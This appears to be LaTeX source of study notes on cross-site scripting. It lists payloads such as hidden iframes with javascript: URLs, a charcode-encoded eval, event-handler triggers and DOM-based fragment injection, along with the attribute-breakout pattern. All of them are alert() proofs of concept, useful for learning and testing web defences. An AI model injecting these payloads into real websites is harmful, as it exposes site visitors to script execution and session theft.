 \documentclass{article}[12pt]
\newcommand{\q}[1]{\texttt{#1}}
\begin{document}
\q{Test<iframe src=javascript:alert(1) width=0 height=0 style=display:none;></iframe>} is embeeding scripting in another tag.


Payloads containing spaces can also be sent however the src cannot contain any spaces or quotations so it needs to be converted into char codes, combined into a string and evaluated: \newline
\q{<iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,116,101,115,116,32,61,32,49,50,51,59,10,97,108,101,114,116,40,116,101,115,116,41,59])) width=0 height=0 style=display:none;></iframe>} \newline

\paragraph{Hint} \q{\&lt;} and \q{\&gt;} are used for \q{<} and \q{>} respectively in encoding convention.\newline

\q{<body onload="javascript:alert()"} - using event to trigger scripting.\newline

\q{<link rel="stylesheet" href="javascript:alert()"} - using dynamic href links.\newline

\q{<img src="jav\&\#x0D;ascript:alert()"} - embedding carriage returns.\newline

\q{');alert();//} - when devs use java script to echo data using \q{document.write}.\newline


\subsubsection{DOM-based} Could be considered as refelected XSS. Injected script is located on client side (for instance: data stored after \# in URL (www.site.com/index.php\#<script></script>) is not transmitted to the server - it stays locally on client side or in DOM)-DOM-based XSS does not reach the server.
DOM-baset XSS payload can be injected inside html events like follows: \texttt{<input type="button" name="button" onmouseover="javascript:document.action()">}.
In example above custom function action() is executed when moving mouse coursor over the button.
There are many attributes like: \texttt{onload, onclick} etc.
In another case javascript script path can be embeeded as path to image like follows:
\texttt{<IMG source="javascript:<path\_to\_the\_script>"}.
In this example source can be either javascript script itself or just path to script located somewhere in the internet or locally.
It means that source could become:
\texttt{...source="http://magicsctipts.end/magicalscript.js"}
Or or instance: \q{<img src=javascript:alert(1)>}.
But remember that usually you inject the code so it should like: \q{"><img src=javascript:alert(1)>}.
\end{document}
